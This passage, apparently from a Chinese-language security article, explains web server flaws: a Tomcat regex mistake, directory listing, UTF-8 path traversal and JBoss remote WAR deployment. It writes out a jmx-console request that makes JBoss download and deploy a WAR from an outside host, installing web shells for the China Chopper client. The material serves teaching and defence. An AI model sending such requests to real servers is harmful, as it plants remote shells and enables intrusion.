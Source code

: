 假设 Tomcat 在写正则的时候一不小心写成了：

```
Pattern.compile("\\.jsp").matcher("1.jsp_jpg.jpg").find();

```

那么所有的 1.jsp.jpg 的请求都会交给 jsp 对应的 servlet 处理。跟这类似的漏洞 apache 曾经就出现过。问题是 apache 如果在 mime.types 文件里面没有定义的扩展名，会给解析成倒数第二个定义的扩展名。

### 文件读取漏洞

好吧，这个 Tomcat 做的有点奇葩。在某些低版本的 Tomcat 当请求目录并没有找到对应的索引文件，且 web.xml 的 listings 是 true。于是 Tom 猫就干脆列出这个目录的所有文件。

Tomcat 还出过另一个低级漏洞，当请求的文件是 UTF-8 编码的时候会造成任意文件遍历漏洞。触发的条件为 Apache Tomcat 的配置文件 context.xml 或 server.xml 的'allowLinking' 和 'URIencoding' 允许'UTF-8'选项

### War 文件部署漏洞

很多时候需要在线上部署一个新的应用时可以在 Server 的控制台去动态的部署一个 war 文件（其实就是一个压缩文件包）。Server 会自动解压并部署。这虽说是非常的方便，但是却因为 Server 各自的实现不一或者自身安全意思淡漠导致任意的 war 文件都可以远程部署到 Server 中去。这里面的典型代表就是 Jboss。请求：

```
http://192.168.0.113:8080/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system:service=MainDeployer&methodIndex=17&arg0=http://www.ahack.net/iswin.war 
```

成功后访问：`http://192.168.0.113:8080/iswin/index.jsp` 菜刀连接（默认包含 index.jsp、index.jspx、index.jspf、cmd.jsp 三个 shell）。

测试版本：jboss-6.1.0.Final。http://p2j.cn/?p=342

![enter image description here](img/img18_u6_png.jpg)
